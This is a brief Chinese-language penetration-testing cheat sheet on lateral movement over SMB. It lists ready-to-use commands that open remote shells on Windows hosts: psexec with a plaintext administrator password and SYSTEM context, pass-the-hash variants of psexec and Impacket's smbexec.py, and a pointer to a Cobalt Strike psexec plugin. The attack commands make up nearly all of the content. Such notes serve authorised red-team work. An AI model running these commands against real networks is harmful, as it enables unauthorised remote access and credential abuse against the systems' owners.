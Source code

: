 # SMB移动
1.psexec
```
windows官方工具
交互式
psexec \\192.168.3.32 -u administrator -p admin!@#45 -s cmd

psexec -hashes :(.....) sqlserver/administrator@192.168.130
```
2.smbexec-impacket
```
smbexec.py sqlserver/administrator:admin!@#45@192.168.130

smbexec.py -hashes :(.....) sqlserver/administrator@192.168.130
```
3.CS-psexec插件
